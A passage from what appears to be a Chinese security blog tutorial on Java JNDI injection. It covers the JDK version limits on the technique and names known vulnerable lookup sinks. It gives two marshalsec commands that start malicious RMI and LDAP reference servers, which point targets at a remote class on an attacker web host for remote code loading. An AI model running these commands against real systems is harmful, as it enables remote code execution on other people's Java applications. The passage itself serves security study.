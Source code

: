 最后的效果就是这样

![image.png](https://y4er.com/img/uploads/20200419226392.png)

在实战用我更倾向于使用marshalsec来起RMI恶意服务，RMI服务端口号默认为1099

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://ip:80/#ExportObject 1099
```
你仍然需要自己启动web服务

### JNDI Reference配合LDAP
在上文中说过，JNDI一般配合RMI、LDAP等协议进行使用，所以上文中有RMI，自然就有LDAP。使用LDAP与上文中的RMI大同小异。所以我直接使用marshalsec启动LDAP服务，LDAP服务默认端口号为1389。

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://ip:80/#ExportObject 1389
```

## JNDI注入的JDK版本限制
由于JNDI注入动态加载的原理是使用Reference引用Object Factory类，其内部在上文中也分析到了使用的是URLClassLoader，所以不受`java.rmi.server.useCodebaseOnly=false`属性的限制。

但是不可避免的受到 `com.sun.jndi.rmi.object.trustURLCodebase`、`com.sun.jndi.cosnaming.object.trustURLCodebase`的限制。

1. JDK 5U45、6U45、7u21、8u121 开始 `java.rmi.server.useCodebaseOnly` 默认配置为true
2. JDK 6u132、7u122、8u113 开始 `com.sun.jndi.rmi.object.trustURLCodebase` 默认值为false
3. JDK 11.0.1、8u191、7u201、6u211 `com.sun.jndi.ldap.object.trustURLCodebase` 默认为false

一张图来展示JNDI注入的利用方式与JDK版本的关系：

![image.png](https://y4er.com/img/uploads/20200419225882.png)

> 图引用于 https://xz.aliyun.com/t/6633

小声逼逼:java每个版本的属性多多少少都有点不一样，对于搞安全的来讲实在是太累了:<

## 已知的JNDI注入
对于JNDI注入，需要注意：

1. 仅由InitialContext或其子类初始化的Context对象（InitialDirContext或InitialLdapContext）容易受到JNDI注入攻击
2. InitialContext可以通过JNDI动态协议转换覆盖
3. InitialContext.rename()和InitialContext.lookupLink()最终也调用了lookup()

还有一些包装类也调用了lookup()，比如：Spring的JndiTemplate。

1. [JtaTransactionManager](https://zerothoughts.tumblr.com/post/137831000514/spring-framework-deserialization-rce) found by zerothinking
2. [com.sun.rowset.JdbcRowSetImpl](https://codewhitesec.blogspot.com/2016/05/return-of-rhino-old-gadget-revisited.html) found by matthias_kaiser
3. [javax.management.remote.rmi.RMIConnector.connect()](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf) found by pwntester
4. [org.hibernate.jmx.StatisticsService.setSessionFactoryJNDIName()](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf) found by pwntester
